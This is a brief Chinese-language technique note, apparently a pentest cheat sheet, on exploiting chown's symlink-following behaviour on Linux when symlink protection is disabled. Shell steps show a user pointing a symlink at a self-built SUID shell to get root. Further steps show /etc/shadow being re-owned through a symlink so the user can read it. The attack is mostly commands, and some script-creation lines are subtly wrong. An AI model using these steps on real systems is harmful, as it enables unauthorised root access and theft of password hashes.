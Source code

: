 当Linux发行版禁用对符号链接的保护时：echo 0 > /proc/sys/fs/protected_symlinks

对软链接文件执行chown操作时，如果未加-h参数，实际将会操作原文件。

利用该特点我们能实现对文件的提权与降权。

### 文件提权

root用户创建了以下下脚本

```shell
nano 1.sh <<EOF
#!/bin/bash
chown root:root ./2.sh
EOF

chmod 4755 ./1.sh
```



aplyc1a用户执行以下步骤，创建对自己生成的suidshell的软链接。

```shell
gcc suid.c -o suid.shell
chmod +x suid.shell
ln -s ./suid.shell 2.sh
```

之后，aplyc1a依次执行1.sh、2.sh即可实现提权。

```shell
bash 1.sh
./2.sh
```

### 文件降权

root用户创建了以下下脚本

```shell
cat 1.sh <<EOF
#!/bin/bash
chown aplyc1a:aplyc1a ./2.sh
EOF
chmod 4755 ./1.sh
```

aplyc1a用户执行以下步骤，创建对/etc/shadow的软链接。

```shell
ln -s /etc/shadow 2.sh
```

之后，aplyc1a依次执行1.sh、2.sh即可实现对shadow文件的降权，从而可以读取文件内容。

```shell
bash 1.sh
cat ./2.sh
```

### 